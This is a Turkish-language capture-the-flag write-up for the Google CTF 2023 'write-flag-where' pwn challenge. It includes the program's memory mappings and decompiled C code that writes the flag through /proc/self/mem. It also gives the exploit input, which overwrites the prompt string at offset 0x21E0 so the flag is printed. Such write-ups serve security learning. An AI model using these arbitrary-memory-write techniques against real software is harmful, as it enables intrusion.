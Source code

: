 # Google CTF 2023

## PWN

### WRITE-FLAG-WHERE

#### Çözüm

Programı açtığımızda bizden bir adres ve uzunluk istemektedir ve temin ettiğimiz adrese, temin ettiğimiz karakter sayısınca aradığımız FLAG'i yazacağını söylemektedir. Bunun ise bir döngü içerisinde yapıldığını görüyoruz.
```
== proof-of-work: disabled ==
This challenge is not a classical pwn
In order to solve it will take skills of your own
An excellent primitive you get for free
Choose an address and I will write what I see
But the author is cursed or perhaps it's just out of spite
For the flag that you seek is the thing you will write
ASLR isn't the challenge so I'll tell you what
I'll give you my mappings so that you'll have a shot.
56454b4d0000-56454b4d1000 r--p 00000000 00:11e 810424                    /home/user/chal
56454b4d1000-56454b4d2000 r-xp 00001000 00:11e 810424                    /home/user/chal
56454b4d2000-56454b4d3000 r--p 00002000 00:11e 810424                    /home/user/chal
56454b4d3000-56454b4d4000 r--p 00002000 00:11e 810424                    /home/user/chal
56454b4d4000-56454b4d5000 rw-p 00003000 00:11e 810424                    /home/user/chal
56454b4d5000-56454b4d6000 rw-p 00000000 00:00 0 
7f7529e87000-7f7529e8a000 rw-p 00000000 00:00 0 
7f7529e8a000-7f7529eb2000 r--p 00000000 00:11e 811203                    /usr/lib/x86_64-linux-gnu/libc.so.6
7f7529eb2000-7f752a047000 r-xp 00028000 00:11e 811203                    /usr/lib/x86_64-linux-gnu/libc.so.6
7f752a047000-7f752a09f000 r--p 001bd000 00:11e 811203                    /usr/lib/x86_64-linux-gnu/libc.so.6
7f752a09f000-7f752a0a3000 r--p 00214000 00:11e 811203                    /usr/lib/x86_64-linux-gnu/libc.so.6
7f752a0a3000-7f752a0a5000 rw-p 00218000 00:11e 811203                    /usr/lib/x86_64-linux-gnu/libc.so.6
7f752a0a5000-7f752a0b2000 rw-p 00000000 00:00 0 
7f752a0b4000-7f752a0b6000 rw-p 00000000 00:00 0 
7f752a0b6000-7f752a0b8000 r--p 00000000 00:11e 811185                    /usr/lib/x86_64-linux-gnu/ld-linux-x86-64.so.2
7f752a0b8000-7f752a0e2000 r-xp 00002000 00:11e 811185                    /usr/lib/x86_64-linux-gnu/ld-linux-x86-64.so.2
7f752a0e2000-7f752a0ed000 r--p 0002c000 00:11e 811185                    /usr/lib/x86_64-linux-gnu/ld-linux-x86-64.so.2
7f752a0ee000-7f752a0f0000 r--p 00037000 00:11e 811185                    /usr/lib/x86_64-linux-gnu/ld-linux-x86-64.so.2
7f752a0f0000-7f752a0f2000 rw-p 00039000 00:11e 811185                    /usr/lib/x86_64-linux-gnu/ld-linux-x86-64.so.2
7fff2b6cf000-7fff2b6f0000 rw-p 00000000 00:00 0                          [stack]
7fff2b7be000-7fff2b7c2000 r--p 00000000 00:00 0                          [vvar]
7fff2b7c2000-7fff2b7c4000 r-xp 00000000 00:00 0                          [vdso]
ffffffffff600000-ffffffffff601000 --xp 00000000 00:00 0                  [vsyscall]
```
Programı decompile ettiğimizde çok daha basit bir şekilde görebiliyoruzki program sürekli olarak adresi istediği string'i print etmektedir. *Give me an address...* 

```c
while( true ) {	
	dprintf(var_14h,"Give me an address and a length just so:\n<address> <length>\nAnd I\'ll write it wherever you want it to go.\nIf an exit is all that you desire\nSend me nothing and I will happily expire\n");	
	buf = (char *)0x0;	
	var_70h = 0;	
	var_68h = 0;	
	var_60h = 0;	
	var_58h = 0;	
	var_50h = 0;	
	var_48h = 0;	
	var_40h = 0;	
	var_1ch = read(var_14h, &buf, 0x40);	
	iVar1 = __isoc99_sscanf(&buf, "0x%llx %u", (int64_t)&nbytes + 4, &nbytes);	
	if ((iVar1 != 2) || (0x7f < (uint32_t)nbytes)) break;	
	fd = open("/proc/self/mem", 2);	
	lseek64(fd, stack0xffffffffffffffd8, 0);	
	write(fd, flag, (uint32_t)nbytes);
	close(fd);
	}
exit(0);
dprintf(var_14h, "Somehow you got here??\n");
uVar2 = abort();
```

Programın içinde bu yazının bulunduğu bölgeyi buluyup, oraya Flag'ı yazdırırsak, program "*Give me an address...*" yazısı yerine Flag'ı yazdıracaktır.

Bunun için programın içinde bu string'i arıyoruz ve **0x21E0** offsetinde olduğunu görüyoruz.

Daha sonra bize verdiği main adresinin üstüne bu offset'i eklediğimizde program bize Flag'ı veriyor. 

```
Give me an address and a length just so:
<address> <length>
And I'll write it wherever you want it to go.
If an exit is all that you desire
Send me nothing and I will happily expire
0x56454B4D21E0 120
CTF{[REDACTED]}
```
